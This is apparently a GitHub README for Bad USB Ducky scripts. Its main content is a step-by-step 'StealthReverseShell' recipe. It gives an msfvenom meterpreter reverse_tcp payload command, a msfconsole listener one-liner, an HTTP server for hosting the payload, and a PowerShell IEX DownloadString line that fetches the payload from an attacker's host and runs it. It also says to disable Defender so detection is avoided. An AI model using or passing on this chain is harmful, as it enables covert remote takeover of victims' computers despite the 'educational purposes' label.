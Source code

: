 # **Various Ducky scripts for Bad USBs**
#### **Can be used for pentesting or administrative tasks.** 
#### **For educational puposes only!**
#### **Tested and working on WIndows 11**

## **Steps to Compromise(StealthReverseShell):** <br>
#### **Requires Admin privileges to disable Defender. Otherwise, the payload may be detected.**
1. Create the payload with msfvenom<br/> 
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=AttacksersIP LPORT=AttackersPort -f psh -o PAYLOAD.ps1<br/>
2. Open msfconsole and start listener<br/>
msfconsole -x "use multi/handler;set payload windows/x64/meterpreter/reverse_tcp; set lhost IP; set lport PORT; set ExitOnSession false; exploit -j"<br/>
3. Start python http server<br/>
python3 -m http.server 80<br/>
4. Ducky script will download and execute payload session<br/>
IEX(New-Object System.Net.WebClient).DownloadString('http://IPADDR/PAYLOAD.ps1')

## Demonstration Video 
[![Click Me](https://img.youtube.com/vi/5RGWCgTj9_g/0.jpg)](https://www.youtube.com/watch?v=5RGWCgTj9_g)


